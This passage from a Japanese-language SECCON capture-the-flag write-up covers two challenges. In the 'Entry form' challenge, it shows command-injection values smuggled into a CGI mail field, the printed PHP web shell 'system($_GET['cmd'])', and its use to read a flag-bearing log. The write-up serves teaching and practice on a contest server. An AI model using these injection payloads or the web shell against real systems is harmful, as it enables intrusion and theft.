 ```
$ nc login.pwn.seccon.jp 10000 | sed "s/\x08//g"
CONNECT 300

Welcome to SECCON server.

The server is connected via slow dial-up connection.
Please be patient, and do not brute-force.
S E C C O N { S o m e t i m e s _ w h a t _ y o u _ s e e _ i s _ N O T _ w h a t _ y o u _ g e t }
```

`SECCON{Sometimes_what_you_see_is_NOT_what_you_get}`

## Entry form (Web/Network 100)
`http://entryform.pwn.seccon.jp/register.cgi` という URL が渡されました。  
`/` をのぞいてみるとインデックスが表示されました。

`/register.cgi_bak` という怪しいファイルがあるので見てみると、`register.cgi` のソースっぽい。  
怪しいところを探すと

```perl
open(SH, "|/usr/sbin/sendmail -bm '".$q->param("mail")."'");
...
open(LOG, ">>log"); ### <-- FLAG HERE ###
```

mail がそのまま挿入されています。OS コマンドインジェクションができそうです。

mail を `';ls 'SECRETS/` にしてみると、

```
total 16
dr-xr-xr-x 2 root root 4096 Dec  1 21:52 .
dr-xr-xr-x 3 cgi  cgi  4096 Dec  1 22:29 ..
-r--r--r-- 1 root root   42 Dec  1 21:52 backdoor123.php
-r--r--r-- 1 root root   19 Dec  1 21:52 index.html
```

と `SECRETS/` のファイルの一覧が表示されました。

`';cat SECRETS/backdoor123.php'` にして `backdoor123.php` の中身を確認すると、

```
<pre><?php system($_GET['cmd']); ?></pre>
```

楽にコマンドが実行できそうです。

`/SECRETS/backdoor123.php?cmd=head%20../log` にアクセスすると、

```
**FLAG**
SECCON{Glory_will_shine_on_you.}
********
...
```

`flag: SECCON{Glory_will_shine_on_you.}`
